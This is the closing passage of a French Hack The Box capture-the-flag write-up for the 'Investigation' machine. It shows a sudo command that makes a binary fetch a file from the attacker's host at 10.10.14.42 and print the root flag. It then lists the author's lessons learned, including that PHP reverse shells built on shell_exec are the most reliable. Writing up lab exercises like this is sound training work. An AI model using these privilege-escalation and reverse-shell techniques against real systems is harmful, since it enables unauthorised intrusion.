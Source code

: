 On affiche enfin le flag avec la commande
```
smorton@investigation:/tmp/reb$ sudo binary http://10.10.14.42:3333/get_root_flag.txt lDnxUysaQn

Running... 
FLAG_HERE
```

## Le mot de la fin
Ce challenge a été très instructif : j'ai rencontré quelques difficultés qui m'ont permis de m'améliorer.
J'ai notamment pris note que les reverse shell php étaient parfois capricieux... Celui qui semble le mieux fonctionner depuis quelques challenges s'appuie sur l'utilisation de la méthode `shell_exec`. Je le tenterais donc en premier la prochaine fois.

Je ne maîtrisais pas non plus l'exécution des serveur web python et php depuis un dossier différent du dossier courant : c'est maintenant chose faite !

Enfin, je ne connaissais pas d'outils permettant la lecture d'un fichier .msg depuis linux. J'ai maintenant ajouté à ma liste d'outil l'utilitaire python`extract-msg`.

Ce challenge étant classé medium : je confirme qu'il n'est pas spécialement "difficile", la phase d'énumération est simplement un peu longue à cause du fait que, pour une fois, le fait d'avoir en sa possession une RCE, ne permet pas directement d'obtenir un shell.

Merci Hack The Box !
